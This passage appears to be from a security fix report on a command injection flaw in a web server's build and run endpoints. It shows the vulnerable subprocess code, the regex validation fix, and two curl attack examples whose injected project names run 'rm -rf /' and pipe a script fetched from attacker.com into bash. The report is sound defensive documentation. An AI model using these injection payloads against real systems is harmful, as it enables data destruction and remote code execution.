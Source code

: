 ```python
        return None

    return path_obj
```

---

### 2. ⚠️ COMMAND INJECTION (CVE-Level Severity: HIGH)

**Files Affected**: `kit_playground/backend/web_server.py`

**Vulnerable Endpoints**:
- `/api/projects/build` - Line 258-347
- `/api/projects/run` - Line 349-595

**Problem**:
User-controlled `project_name` parameter was passed directly to `subprocess` calls without sanitization:
```python
# VULNERABLE CODE (BEFORE FIX):
project_name = data.get('projectName')  # From untrusted client
kit_file = f"{project_name}.kit"  # No validation
subprocess.Popen(['./repo.sh', 'launch', kit_file])  # Executed!
```

**Attack Vector Example**:
```bash
# Shell command injection
curl -X POST http://server/api/projects/run \
  -d '{"projectName": "app; rm -rf /; echo pwned", "useXpra": false}'

# Execute arbitrary commands
curl -X POST http://server/api/projects/build \
  -d '{"projectName": "$(curl attacker.com/steal.sh | bash)"}'
```

**Fix Applied**:
Added `_is_safe_project_name()` validation that:
1. Rejects names containing shell metacharacters: `; & | $ \` ( ) < > \ " ' [space]`
2. Only allows: alphanumeric, dots, hyphens, underscores: `^[a-zA-Z0-9._-]+$`
3. Enforces max length of 255 characters
4. Returns 400 Bad Request with clear error message

**Code Changes**:
```python
def _is_safe_project_name(self, name: str) -> bool:
    """Validate project name to prevent command injection."""
    # Allow only alphanumeric, dots, hyphens, and underscores
    pattern = r'^[a-zA-Z0-9._-]+$'
    return bool(re.match(pattern, name)) and len(name) <= 255

# Applied at entry points:
if project_name and not self._is_safe_project_name(project_name):
    return jsonify({'error': 'Invalid project name. Use only alphanumeric characters, dots, hyphens, and underscores.'}), 400
```

---
